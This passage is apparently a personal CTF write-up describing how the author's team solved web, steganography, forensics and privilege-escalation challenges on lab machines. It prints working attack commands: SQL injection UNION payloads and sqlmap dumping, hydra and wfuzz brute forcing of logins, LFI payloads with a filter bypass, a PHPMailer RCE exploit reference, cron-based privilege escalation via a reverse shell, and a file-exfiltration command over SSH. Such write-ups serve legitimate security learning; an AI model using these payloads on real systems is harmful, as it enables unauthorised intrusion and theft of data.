index.php               [Status: 200, Size: 2578, Words: 458, Lines: 116]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [5163/5163] :: Job [1/1] :: 596 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

But not accessible, without a valid session.

The SQLi was fuzzed by using `ffuf` and an SQLi wordlist

```
ffuf -w /usr/share/seclists/Fuzzing/Databases/sqli.auth.bypass.txt -X POST -d "username=admin&password=xxxx" -u https://10.17.32.95:1003/index.php?error -H "Referer: FUZZ"
```

And now the `dashboard.php` could be fuzzed also, AND FINALLY `sqmap` worked for me, I could dump a lot of stuff from the MySQL server, but in the end, didn't get much from it, also wasn't able to create a web shell with a second-order injection.

It wasn't a waste, I tried the payloads from `sqlmap` and saw that the response changed, by changing the second value for `union select`

```
https://10.17.32.95:1003/dashboard.php?id=1%27%20UNION%20SELECT%201,5,3,4,5,6--%20-
```


And no, the second-order injection was really not working :(

```
https://10.17.32.95:1003/dashboard.php?id=1%27%20UNION%20SELECT%201,(SELECT%20concat(username)%20as%20t%20FROM%20users%20where%20id=8)%20,3,4,5,6--%20-
```


I enumerated the databases with `sqlmap --sql-shell`

```
# sqlmap -u https://10.17.32.95:1003/dashboard.php?id=1 -p id --sql-shell --batch

sql-shell> select id from users
[20:31:36] [INFO] fetching SQL SELECT statement query output: 'select id from users'
[20:31:36] [WARNING] the SQL query provided does not return any output
[20:31:36] [INFO] retrieved: '1'
[20:31:36] [INFO] retrieved: '2'
[20:31:36] [INFO] retrieved: '3'
[20:31:36] [INFO] retrieved: '4'
[20:31:36] [INFO] retrieved: '5'
[20:31:36] [INFO] retrieved: '6'
[20:31:37] [INFO] retrieved: '7'
[20:31:37] [INFO] retrieved: '8'
select id from users [8]:
[*] 1
[*] 2
[*] 3
[*] 4
[*] 5
[*] 6
[*] 7
[*] 8

sql-shell>
```

* Now we know the scope of users
* Some other useful flags include: `--dump-all`, `--tables`, `--passwords`

But by further digging into the commands I can use, it was possible to leak out column names (couldn't do it with `--sql-shell` using `sqlmap`)

```
https://10.17.32.95:1003/dashboard.php?id=1%27%20UNION%20SELECT%201,(SELECT%20concat(username)%20as%20t%20FROM%20users%20where%20id=8)%20,3,4,5,6--%20-
```

This command did the trick in the second column of union selection

```
(SELECT concat(username) as t FROM users where id=8)
```

This leaked the username, which was `Flag`, and confirmed if it was valid 


So, off to brute-forcing the column name

```bash
wfuzz -u "https://10.17.32.95:1003/dashboard.php?id=1%27%20UNION%20SELECT%201,(SELECT%20concat(FUZZ)%20as%20t%20FROM%20users%20where%20id=8)%20,3,4,5,6--%20-" -w /usr/share/wordlists/wfuzz/general/megabeast.txt --hw 25,56
```

The column was `hash`, which could have been attempted at the start as a low hanging fruit

```
https://10.17.32.95:1003/dashboard.php?id=1%27%20UNION%20SELECT%201,(SELECT%20concat(hash)%20as%20t%20FROM%20users%20where%20id=8)%20,3,4,5,6--%20-
```

#### API

```
DESCRIPTION
We found a nice target where some backend API communication is happening behind the scenes at https://10.17.32.95:1006.
Sometimes it is possible to extract valuable information by tampering with some parameters.
Some dictionary attacks may be used against `index.php` script and it seems that a web proxy is the best tool for this job.
QUESTION
Can you reverse engineer messages and extract some information from this endpoint?
```

When visiting the site, a text was displayed, "Request empty or incorrect username" (not exactly that, but something similar), I was trying to manually find the right way to send the request, like sending it with various headers changed, like `Content-Type` as `x-www-urlencoded` and `application/json` and modifying other headers, but the solution was a lot simpler.

Thus we spent points, we needed a hint, which helped us with completing the challenge

```
HINT #1 (-10p) Try to tamper this backend API and figure out what parameter name is set in index.php
```

A teammate of mine just guessed the parameter, a different message was shown, indicating that we got the parameter right, but the `user` was not correct.

Command:

```bash
curl -v -k -X POST -H "Content-Type: application/json" https://10.17.32.95:1006/index.php?user=admin
```

* Didn't think of it at the time, but [parameth](https://github.com/maK-/parameth) could have been used for this

Next step I was thinking more logically and brute-forced the username for the parameter using `wfuzz`

```bash
wfuzz -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -u "https://10.17.32.95:1006/index.php?user=FUZZ" -d "user=FUZZ"
```

Using `curl` I uncovered the secrets

```bash
curl -k -X POST -H "Content-Type: application/json" https://10.17.32.95:1006/index.php?user=administrator Username: administrator<br>Password: terminator008<br>UserID: 1<br>IP: 127.0.0.1<br>Documentroot: /virtualadmin<br>root@env0
```

The flag was revealed by visiting `https://10.17.32.95:1006/virtualadmin` and entering the credentials.

**Lesson learned** - guess a few times, fuzz afterward.

#### CV

```
DESCRIPTION
Investigate the CV page. Can you find the vulnerability? http://10.17.32.135
QUESTION
Find your way in and read flag from /home/flag.txt
```

I liked this one, not only C'thulhu's CV 


but also that there was a mail form below it with the text `Powered by PHPMailer`, where I immediately threw `phpmailer` into `searchsploit` 


I didn't find any version either by using `nmap` on the machine, or in source code, but tried out the following Python exploit from [Exploit DB](broken-reference) 


The CVE for the vuln is CVE-2016-10033 and an analysis of it can be found [fortinet blog](https://www.fortinet.com/blog/threat-research/analysis-of-phpmailer-remote-code-execution-vulnerability-cve-2016-10033).

The exploit code was not written good, in my opinion, I didn't need any bells and whistles, but the author could have easily used more variables, but it _werkd_, exploit requires the user to know the WEB_ROOT of the website because the reverse shell will be written inside the same directory and a full path is needed, it will still be written somewhere, but not accessible. Solution? Guessed. It was `/www`.

I liked how the application folder was named explicitly `vulnerable` 


I found the flag in `/home/flag.txt`.

**MULTI BRUTE**

```
DESCRIPTION 
The target has an encrypted zip archive with the user's password hash. 
http://10.17.32.134 

QUESTION 
Get the flag from an unauthenticated user's /home folder.
```

Quick solve, required only 2 password cracking approaches.

I found the directory containing the backup by recursively brute-forcing it with `dirbuster`.

It was a zip file: [http://10.17.32.134/back-up/etc.zip](http://10.17.32.134/back-up/etc.zip)

The zip file has password-protected folders, to crack the password, I tried using `zip2john` for extracting the hash and cracking it with `john`, but my teammate beat me to the point by a quick google search for [cracking a Zip file using Python](https://www.geeksforgeeks.org/how-to-brute-force-zip-file-passwords-in-python/)

```
There are total 1000000 number of passwords to test
Password found at line 782
Password is kawasaki
```

Later I used `rg` (ripgrep) to find all instances of `web` (the user found in `/etc/passwd`) and found the `/etc/shadow` file (yeah, I could have just done it at the start), this also needed some cracking, which cracked quickly using `john` where the password was `liverpool`.

Why not try the credentials on the server?

The SSH port was not the default, but on `44322`, which I found by using an nmap scan for all ports.

Logged in, `cd` into `/home/web` and the flag is sitting there.

#### C\&C ACCESS

This challenge was a 2 part challenge. Part 1: Access.

```
DESCRIPTION
Network security monitoring system gives alerts with one IP address that the ransomware connected to.
Can this be hackers computer or command & control server?

If you can access it, you might find something interesting

QUESTION
Gain user level access to the attackers command & control server at 10.17.32.130
```

I tried solving this but moved to a different challenge, fortunately, my teammate solved it.

By scanning the server, an SMB service can be found

```
$ nmap -sC -sV 10.17.32.130

Starting Nmap 7.91 ( [https://nmap.org/](https://nmap.org/ "https://nmap.org/") ) at 2021-10-07 10:14 EEST Nmap scan report for 10.17.32.130 Host is up (0.00013s latency). 
Not shown: 998 closed ports 
PORT STATE SERVICE 
22/tcp open ssh 
445/tcp open microsoft-ds 
MAC Address: 00:50:56:88:3D:F0 (VMware)
```

Enumerating the SMB service:

```bash
$ smbmap -u "Anonymous" -H 10.17.32.130 

[+] Guest session IP: 10.17.32.130:445 Name: 10.17.32.130  
    Disk         Permissions     Comment 
    ----         -----------     ------- 
    Backup         READ ONLY         Server backups 
    Exploits    NO ACCESS         Exploit collection. Priv access 
    Data-dumps     NO ACCESS         Dumped data. Priv access 
    IPC$         NO ACCESS         IPC Service (command_control_SRV1 server C&C Samba)
```

Initial access was gained by grabbing the backup from the `Backup` share, which contained the `/home/max` directory with the flag and `id_rsa`, ssh private key, which in turn led to accessing the server, but both the backup file and the key were password protected (barely).

The Zip file password was just `computer` and the passphrase for `id_rsa` was `qwerty`.

Tools used:

* Zip bruting
* SSH passphrase bruting

#### C\&C ELEVATION

Part 1: Privilege escalation

```
DESCRIPTION
Great, now you have access to hackers command & control server.
But you probably need higher level access to find more valuable information.

QUESTION
Escalate privileges to root on command & control server at 10.17.32.130
and read the flag from /root/flag.txt
```

It is now possible to access the server with user `max` by using the `id_rsa` (remember to `chmod 400` your keys :)).

As before I was overcomplicating things, where I was looking through the `linpeas.sh` output and trying to find something, but one thing was just there

```
╔══════════╣ Backup files (limited 100) 
-rwxrw-rw- 1 root root 214 Nov 10 2020 /etc/backup.sh                   # <-- Owned by root :)
-rwxr-xr-x 1 root root 14328 Oct 26 2017 /usr/bin/tdbbackup.tdbtools 
-rw-r--r-- 1 root root 3898 Nov 10 2020 /share/credz_backup.zip
```

`/etc/backup.sh` was executed by a cronjob as root and this file was writeable by anyone.

There was nothing complicated by the finding, but I was trying to do fancy things like SSH port forwarding for some random service on the machine.

Privilege escalation was successful after putting a reverse shell in the script and letting the `cronjob` execute it.

**Lesson learned** - low-hanging fruits, check privileges and permissions.

#### JIMBO THE SMUGGLER

```
DESCRIPTION
Last week Jimbo did some updates on access controls to protect specific configuration file /admin/settings.config.
Jimbo is smart, but it seems some logical issue is mixing something up.
From log files some users are still able to access secret file with response code 200.
You need to help this guy before he gets fired - only thing Jimbo mentioned is that server_name config is set to jimbo.
Try to see if You can get access to that configuration file. Jimbo's site
QUESTION
What do you know about request smuggling?
```

Not sure if the _"What do you know about request smuggling?"_ was a rabbit hole, but the challenge was achieved by adding `http://jimbo/admin/settings.config` in the `/etc/hosts`, as before I didn't know enough and my teammate solved this pretty quickly.

### Bronze

Bronze challenges were small and some weren't supposed to be so hard (for me), I liked them, I had no issues with the challenges themselves, but was frustrated with some due to my lack of experience, but we start somewhere, don't we? :)

#### LOCKED OUT

```
DESCRIPTION
Web admin is complaining that he forgot his password to the system at: https://10.17.32.95:1004/
Awesome hacker as you are, he came to ask for your help
Can you find the vulnerability and gain access to the system?

QUESTION
Log in through the admin panel and submit the flag.
```

This challenge was more of a rabbit hole for me, it contained `image.php` file which took a parameter of `id`, that had an LFI vulnerability, from here I was able to get the source code, but this lead was useless in reality.

By exploiting the LFI, I got the source code for the PHP file and bypassed the `passwd` check, not sure why `https://10.17.32.95:1004/image.php?id=php://filter/convert.base64-encode/resource=image.php`

```php
<?php
$picture = $_GET['id'];
if (strpos($picture, 'passwd') !== false) {
    echo 'I can smell a Hacker!<br>';
    $picture =  str_replace("passwd","",$picture);
    include($picture);
    }
include($picture);
?>
```

It was simple to bypass this, but useless `https://10.17.32.95:1004/image.php?id=/etc/ppasswdasswd`

Another rabbit hole was a padlock gif in the `index.php` which was hidden by an HTML tag attribute, I slowed down the gif and tried password combinations for the `/admin` panel.

So what was the solution?

:)

My teammate just accessed the `.htaccess` in panel `https://10.17.32.95:1004/image.php?id=admin/.htaccess`

Which in turn had the location of the flag `https://10.17.32.95:1004/image.php?id=admin/top_secret_flag.txt`

_Lesson learned_ - **There is a reason the challenge is easy**, but it doesn't mean it won't have rabbit holes.

#### SECRET FILES

```
SECRET FILES
DESCRIPTION
You have found a webserver with login prompt at https://10.17.32.95:1002.
Try to find the flag.

QUESTION
Can you find login credentials and retrieve the flag that is hidden in one of the PDF files?
```

This site had a login form at the root, I tried all kinds of directory brute-forcing, finding, `/files` and `/uploads`, but only after taking the hint, I facepalmed myself, that I didn't even try brute-forcing the login page, which revealed an easily guessable password.

This wasn't easy for me either, because I was only brute-forcing the login with the same username, but my teammate pulled me out of this brute rabbit hole tried this

```
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 10.17.32.95 -s 1002  https-post-form "/index.php:username=^USER^&password=^PASS^&submit=Login:S=302" -vV -f
```

* so not all admins use the username `admin`? :(
* and the password was just `root`...

The `/uploads` page contained a bunch of PDFs, this was a good time to test my bash skills, just by not using the right commands. :)

Luckily I was saved again by another teammate of mine

```
./ffuf -w /usr/share/seclists/Fuzzing/3-digits-000-999.txt -u https://10.17.32.95:1002/uploads/secret_documentFUZZ.pdf
```

the PDF containing the flag was the largest in size, after opening it, there was the flag.

#### HIDDEN TEXT

```
HIDDEN TEXT
DESCRIPTION
Network team has captured a text file from network traffic.
One analyst noticed that the file size does not match the content.
Possibly something is hidden.

QUESTION
Analyze the file and read the secret text.
http://10.195.165.94/steganography/secret.txt
```

Oh boy, I do love spending 8 hours on a challenge where I thought I was on the right path. :)

In the file `secret.txt` was hidden text, which could be decoded by first deleting some repeating characters, converting \u200B to 0 and \u200D to 1, creating the flag, but in binary, which was revealed by converting it from binary to Unicode.

**Be careful** when copying data from one place to another, this cost me a lot of time working with garbage data.

When doing challenges like this, either transfer the whole file or encode it as hex,

One of the participants was very helpful and I decided it afterward.

Here is the [CyberChef](https://gchq.github.io/CyberChef/#) recipe 


* **USE HEX FOR INPUT**

And you thought I solved it **RIGHT** afterward, but no I got a math formula and thought I had it

```
# This
0011010010111001100111010001000000111011101101000011010010111010001100101011100110111000001100001011000110110010100101101011100100110111101111000

# Coverted to this
4¹..;´4º2¹¸0±².¹7¼.
```

This was easily fixable by just deleting the first zero of the binary

```
# SOLVED
is: whitespace-rox
```

Next I tried right from the start and got a cleaner way to solve this ([Link to my solution](https://gchq.github.io/CyberChef/#recipe=Find\_/\_Replace\(%7B'option':'Regex','string':'\(e2%7C80\)'%7D,'',true,false,true,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'8b'%7D,'0',true,false,true,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'8d'%7D,'1',true,false,true,false\)From_Binary\('Space',8\)\&input=ZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhkZTI4MDhiZTI4MDhiZTI4MDhiMGE)) 

1. Extract hex

```bash
$ xxd -ps -c 0 ./secret.txt 
0a0a5468652066696c65206973206c696b6520616e2074726f6a616e2068
6f7273650a596f75206d6967687420736565206f6e65207468696e672c20
62757420746865726520697320736f6d657468696e6720696e7669736962
6c652068696464656e20696e2069742e0a0ae2808be2808de2808be2808b
e2808be2808de2808de2808be2808be2808de2808de2808be2808de2808d
e2808be2808be2808be2808de2808de2808be2808be2808be2808be2808d
e2808be2808de2808de2808be2808be2808de2808de2808de2808be2808b
e2808de2808be2808be2808be2808be2808be2808be2808de2808de2808b
e2808de2808be2808be2808de2808be2808de2808de2808de2808be2808b
e2808de2808de2808be2808be2808de2808de2808de2808be2808de2808b
e2808be2808be2808de2808be2808be2808be2808be2808be2808be2808d
e2808de2808de2808be2808de2808de2808de2808be2808de2808de2808b
e2808de2808be2808be2808be2808be2808de2808de2808be2808de2808b
e2808be2808de2808be2808de2808de2808de2808be2808de2808be2808b
e2808be2808de2808de2808be2808be2808de2808be2808de2808be2808d
e2808de2808de2808be2808be2808de2808de2808be2808de2808de2808d
e2808be2808be2808be2808be2808be2808de2808de2808be2808be2808b
e2808be2808de2808be2808de2808de2808be2808be2808be2808de2808d
e2808be2808de2808de2808be2808be2808de2808be2808de2808be2808b
e2808de2808be2808de2808de2808be2808de2808be2808de2808de2808d
e2808be2808be2808de2808be2808be2808de2808de2808be2808de2808d
e2808de2808de2808be2808de2808de2808de2808de2808be2808be2808b
0a
```

  2\. Copy the hidden text part

```
e2808be2808de2808be2808be2808be2808de2808de2808be2808be2808de2808de2808be2808de2808de2808be2808be2808be2808de2808de2808be2808be2808be2808be2808de2808be2808de2808de2808be2808be2808de2808de2808de2808be2808be2808de2808be2808be2808be2808be2808be2808be2808de2808de2808be2808de2808be2808be2808de2808be2808de2808de2808de2808be2808be2808de2808de2808be2808be2808de2808de2808de2808be2808de2808be2808be2808be2808de2808be2808be2808be2808be2808be2808be2808de2808de2808de2808be2808de2808de2808de2808be2808de2808de2808be2808de2808be2808be2808be2808be2808de2808de2808be2808de2808be2808be2808de2808be2808de2808de2808de2808be2808de2808be2808be2808be2808de2808de2808be2808be2808de2808be2808de2808be2808de2808de2808de2808be2808be2808de2808de2808be2808de2808de2808de2808be2808be2808be2808be2808be2808de2808de2808be2808be2808be2808be2808de2808be2808de2808de2808be2808be2808be2808de2808de2808be2808de2808de2808be2808be2808de2808be2808de2808be2808be2808de2808be2808de2808de2808be2808de2808be2808de2808de2808de2808be2808be2808de2808be2808be2808de2808de2808be2808de2808de2808de2808de2808be2808de2808de2808de2808de2808be2808be2808b0a
```

Next, we can either use CyberChef or just a plain text editor.

1. Replace what's repeating, which is `e2` and `80`
2. Decode to binary: 
   1. `8b` -> 0
   2. `8d` -> 1
3. Decode from binary

```
Flag is: whitespace-rox.
```

**SOLVED!**

Here are some [ZWSP](https://en.wikipedia.org/wiki/Zero-width_space) decoder I tried with no success:

* [For analyzing unicode characters](https://fontawesome.com/v5.15/icons/analytics)
* [Unicode Steganography with Zero-Width Characters](https://330k.github.io/misc_tools/unicode_steganography.html)
* [Unicode Text Steganography Encoders/Decoders](https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder)
* [Zero Width Space Steganography (ZWSP)|CTF](https://captainnoob.medium.com/zero-width-space-steganography-zwsp-ctf-92e1c414c378)
* [offdev/zwsp-steg-js](https://github.com/offdev/zwsp-steg-js)

I failed with using these, because I had no ZWSP characters, which I found out by analyzing the text with the unicode analyzer, but after removing the repeating characters, I finally found them.

Here is the challenge if anyone wants to try at home

```
The file is like an trojan horse
You might see one thing, but there is something invisible hidden in it.

​‍​​​‍‍​​‍‍​‍‍​​​‍‍​​​​‍​‍‍​​‍‍‍​​‍​​​​​​‍‍​‍​​‍​‍‍‍​​‍‍​​‍‍‍​‍​​​‍​​​​​​‍‍‍​‍‍‍​‍‍​‍​​​​‍‍​‍​​‍​‍‍‍​‍​​​‍‍​​‍​‍​‍‍‍​​‍‍​‍‍‍​​​​​‍‍​​​​‍​‍‍​​​‍‍​‍‍​​‍​‍​​‍​‍‍​‍​‍‍‍​​‍​​‍‍​‍‍‍‍​‍‍‍‍​​​
```

* Checkout `stegsnow` for creating these type of challenges

#### TUNNELED DATA

```
ª?»?Ì?3-#FEÁ?i¤?@@
d
Æ?3dÞ?P¢? ?lL¦?×?×?ý?°?¸?
GlWà?»?Ù?þ?Server: SimpleHTTP/0.6 Python/2.7.18
Date: Sat, 24 Oct 2020 13:54:57 GMT
Content-type: application/octet-stream
Content-Length: 469
Last-Modified: Fri, 23 Oct 2020 13:37:04 GMT

At agreed time, start the packet capture on 198.51.100.222
Capture it in some file eg. capture.pcapng

then filter out the traffic, remove unnecessary characters from the dump,
create ascii from hex and base64 decode it.

We shouldn't be detected by using this method. ICMP is often allowed on firewalls and
intrusion detection systems should not alert.
```

In order to solve this, `tshark` command was used

```bash
tshark -r capture.pcapng -Y "icmp.type == 8" -T fields -e data | sed -n 's/^.*0000000//p' | xxd -r -p | base64 -d
```

And the message was this

```
School job is finished.
There was small issue accessing the database server, 
but we can continue at the local hospital where subject K is treated.
As planned will create some havoc, 
so we can get some eyes off from our main mission.
The flag is: c95412dc-1fce-4a69-c420
base64: invalid input
```

#### TROLL

```
DESCRIPTION
Tony really messed up this time.
He gave quick access to a stranger he met online to one of servers he owns and now Tony can't get back in to retrieve very important password from password manager he wrote called safepass.
To make it even worse some Troll who got server access hid the binary in some other location and Tony can't find it anymore since there are constant disconnections happening over SSH.

Try to log in with username: root and password: Cool2Pass into machine 10.17.32.141 and help Tony to retrieve important password from safepass.

QUESTION
Can You help Tony to retrieve very important password from server? 10.17.32.141
```

Was a fun one indeed. After connecting to the server all the filenames appeared to be messed up (weren't when navigating) and some of the common commands like `ls` were aliases to `exit`, not only that, but a cronjob was setup to log the user out of the session every 30 seconds.

The `safepass` binary was found easily, first by logging in and entering a shell right after the connection

```
sshpass -e ssh root@10.17.32.141 /bin/bash
```

and using `find` to locate the binary

```
find / -name safepass -type f
/etc/apt/auth.conf.d/safepass
```

The problem here was that the file loaded more than 30 seconds which was not enough time to load the flag, thus the cronjob killed every process after 30 seconds.

Conjob from `.bashrc`

```
# make less more friendly for non-text input files, see lesspipe(1)
[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"
trap '' 2
(sleep 30; echo '* * * * * pkill -9 -u root 2>&1' > /etc/cron.d/cron  && crontab /etc/cron.d/cron && pkill -9 -u root) &
if [ -z "$debian_chroot" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
```

The logical solution to this was to exfiltrate the binary, but there was no `scp`, so, I went over to StackOverflow. :)

```bash
sshpass -e ssh root@10.17.32.141 "tar czf - /etc/apt/auth.conf.d/safepass" | tar xzvf - -C ./
```

_SOLVED!_

#### TOUGH CHOICE

```
DESCRIPTION
You have been given an image file to analyze.
Figure out how to get the flag.
QUESTION
Download the file from:
http://10.195.165.94/steganography/tough-choice.jpg
Analyze it and extract the flag.
```

"Tough choice" was an easy one, I discovered the right tool for it.

* [StegoVeritas](https://github.com/bannsec/stegoVeritas)

This tool just spits out the image in different colors n stuff including all metadata in separate folders, but it can be used for more challenges alternatively.

Simply just give the file to the program

```
stegoveritas image.png
```

## Conclusion

For my first CTF, I was satisfied with the results, but there are clearly things I need to brush up on, which is _more practice_, in order to get better I need more exposure and need to prepare my tools beforehand.

As for the platform, the Kali machines performed flawlessly, the only problem I had, was that the half of the time I tried to do keyboard shortcuts I ended up accidentally alt-tabbing to a different window, closing my tab, opening a random thing, just because the machine was accessible through the browser, but there was no issue just re-opening the tab, just annoying.

All in all thanks to the organizers of the CTF and my team. And lastly the reader for actually reading something of this.
